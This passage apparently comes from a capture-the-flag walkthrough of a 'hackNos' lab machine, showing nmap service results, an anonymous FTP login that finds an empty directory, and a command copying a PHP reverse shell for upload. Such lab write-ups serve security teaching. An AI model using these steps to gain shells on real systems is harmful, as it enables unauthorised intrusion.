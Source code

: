 ```shell
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 6f:96:94:65:72:80:08:93:23:90:20:bc:76:df:b8:ec (RSA)
|   256 6f:bb:49:1a:a9:b6:e5:00:84:19:a0:e4:2b:c4:57:c4 (ECDSA)
|_  256 ce:3d:94:05:f4:a6:82:c4:7f:3f:ba:37:1d:f6:23:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Recon_Web
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.28 seconds

```

## FTP

```shell
ftp -p $RHOST 21
Connected to 192.168.56.60.
220 "Security@hackNos".
Name (192.168.56.60:f0c1s): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||34458|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        117          4096 Jan 06  2020 .
drwxr-xr-x    2 0        117          4096 Jan 06  2020 ..
226 Directory send OK.
ftp> pwd
Remote directory: /
ftp> cwd
?Invalid command.
ftp> dir
229 Entering Extended Passive Mode (|||55040|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> exit
221 Goodbye.

```

There is nothing here. Maybe I can upload something?

```shell
cp ~/collected-tools/php-reverse-shell/php-reverse-shell.php rshell.php

```
